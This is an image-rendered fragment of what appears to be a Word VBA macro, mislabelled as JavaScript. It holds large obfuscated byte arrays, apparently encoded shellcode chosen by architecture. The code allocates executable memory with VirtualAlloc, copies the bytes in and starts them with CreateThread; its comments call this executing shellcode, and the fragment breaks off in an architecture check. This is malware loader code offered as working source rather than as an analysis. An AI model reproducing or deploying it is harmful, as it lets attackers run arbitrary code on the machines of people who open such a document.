 ```js
	53, 53, 53, 53, 52, 10, 130, 102, 245, 136, 143, 125, 190, 38, 130, 102, 254, 130, 102, 254, 136, 136, 126, 252, 247, 98, 59, 77, 176, 52, 10, 186, 245, 170, 84, 125, 252, 246, 189, 72, 53, 53, 126, 239, 121, 37, 106, 21, 53, 53, _
	53, 53, 52, 10, 125, 52, 4, 169, 55, 32, 223, 29, 138, 53, 53, 53, 136, 142, 159, 117, 143, 126, 190, 6, 246, 23, 69, 126, 252, 245, 53, 69, 53, 53, 126, 239, 141, 217, 136, 26, 53, 53, 53, 53, 52, 10, 125, 200, 136, 136, _
	125, 190, 28, 125, 190, 38, 125, 190, 15, 126, 252, 245, 53, 85, 53, 53, 126, 190, 46, 126, 239, 71, 203, 190, 23, 53, 53, 53, 53, 52, 10, 125, 184, 249, 85, 186, 245, 169, 231, 155, 192, 60, 125, 54, 248, 186, 245, 170, 7, 141, _
	248, 141, 159, 53, 142, 126, 252, 247, 37, 234, 215, 139, 52, 10)
 Else
    buf = Array(49, 29, 196, 53, 53, 53, 149, 102, 7, 190, 26, 153, 192, 135, 101, 192, 135, 65, 192, 135, 73, 68, 236, 127, 91, 102, 52, 192, 167, 93, 102, 245, 225, 113, 150, 177, 55, 97, 85, 246, 4, 66, 54, 252, 126, 170, 36, 135, 140, 192, _
	135, 69, 192, 119, 113, 54, 5, 192, 117, 173, 186, 245, 169, 129, 54, 5, 133, 192, 125, 77, 192, 141, 85, 54, 8, 186, 254, 169, 113, 102, 52, 126, 192, 105, 192, 54, 11, 102, 245, 246, 4, 66, 225, 54, 252, 109, 21, 170, 41, 56, _
	178, 45, 112, 178, 89, 170, 21, 141, 192, 141, 89, 54, 8, 155, 192, 65, 128, 192, 141, 81, 54, 8, 192, 57, 192, 54, 5, 190, 121, 89, 89, 144, 144, 150, 142, 143, 134, 52, 21, 141, 148, 143, 192, 71, 30, 181, 52, 52, 52, 146, _
	157, 163, 154, 169, 53, 157, 172, 158, 163, 158, 137, 157, 129, 172, 91, 60, 52, 10, 102, 16, 136, 136, 136, 136, 136, 29, 115, 53, 53, 53, 130, 164, 175, 158, 161, 161, 150, 100, 106, 99, 101, 85, 93, 140, 158, 163, 153, 164, 172, 168, _
	85, 131, 137, 85, 107, 99, 102, 112, 85, 137, 167, 158, 153, 154, 163, 169, 100, 108, 99, 101, 112, 85, 167, 171, 111, 102, 102, 99, 101, 94, 85, 161, 158, 160, 154, 85, 124, 154, 152, 160, 164, 53, 157, 111, 139, 174, 220, 52, 10, 136, _
	136, 159, 56, 136, 136, 157, 240, 54, 53, 53, 29, 7, 53, 53, 53, 100, 168, 161, 122, 121, 122, 122, 153, 158, 102, 106, 125, 170, 109, 98, 148, 174, 159, 129, 98, 108, 151, 118, 155, 110, 140, 109, 164, 140, 154, 135, 104, 132, 134, 128, _
	101, 166, 159, 150, 142, 162, 154, 173, 124, 137, 126, 143, 151, 150, 160, 150, 151, 130, 141, 108, 129, 127, 156, 134, 98, 153, 138, 153, 124, 168, 128, 53, 133, 157, 140, 190, 212, 251, 52, 10, 190, 251, 136, 157, 53, 103, 29, 185, 136, 136, _
	136, 140, 136, 139, 157, 32, 138, 99, 112, 52, 10, 203, 159, 63, 148, 157, 181, 104, 53, 53, 190, 21, 159, 57, 133, 159, 84, 139, 157, 170, 123, 211, 187, 52, 10, 136, 136, 136, 136, 139, 157, 98, 59, 77, 176, 52, 10, 186, 245, 170, _
	73, 157, 189, 72, 53, 53, 157, 121, 37, 106, 21, 52, 10, 132, 170, 2, 29, 127, 53, 53, 53, 159, 117, 157, 53, 69, 53, 53, 157, 53, 53, 117, 53, 136, 157, 141, 217, 136, 26, 52, 10, 200, 136, 136, 190, 28, 140, 157, 53, 85, _
	53, 53, 136, 139, 157, 71, 203, 190, 23, 52, 10, 186, 245, 169, 4, 192, 60, 54, 248, 186, 245, 170, 26, 141, 248, 148, 29, 160, 52, 52, 52, 102, 110, 103, 99, 102, 107, 109, 99, 105, 110, 99, 107, 107, 53, 240, 37, 234, 215, 139, _
	159, 53, 136, 52, 10)

End If


'Create new space in memory within current process
 addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
 'Copy shellcode to newly created memory
 For counter = LBound(buf) To UBound(buf)
 data = Hex(buf(counter))
 patched ByVal (addr + counter), 1, ByVal ("&H" & data)
 Next counter
 'create thread to execute shellcode
 res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

 Function arch() As Boolean
 'check architecture of current word process
    #If Win64 Then
        arch = True
    #Else
        arch = False
```